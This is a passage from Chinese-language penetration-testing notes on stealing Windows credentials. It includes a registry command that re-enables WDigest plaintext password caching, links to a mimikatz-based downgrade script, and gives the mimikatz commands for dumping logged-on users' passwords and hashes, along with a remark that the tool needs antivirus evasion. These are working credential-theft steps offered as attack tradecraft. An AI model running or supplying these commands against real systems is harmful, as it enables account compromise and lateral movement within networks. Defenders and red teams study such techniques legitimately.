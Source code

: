 4、getpass本地账户明文抓取  
闪电小子根据mimikatz写的一个内存获取明文密码

![](/sourcepictures/2017/11/06/5/6.jpg)

http://bbs.pediy.com/showthread.php?t=156643

####win8+win2012明文抓取  
修改一个注册表就可以抓取了  
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```

测试失败  
工具：https://github.com/samratashok/nishang/blob/master/Gather/Invoke-MimikatzWDigestDowngrade.ps1  
文章地址：https://www.trustedsec.com/april-2015/dumping-wdigest-creds-with-meterpreter-mimikatzkiwi-in-windows-8-1/  

***

#### 域用户hash抓取    
#####(一)mimikatz  
只能抓取登陆过的用户hash，无法抓取所有用户,需要免杀  
1、本机测试直接获取内存中的明文密码  
```
privilege::debug
sekurlsa::logonpasswords
```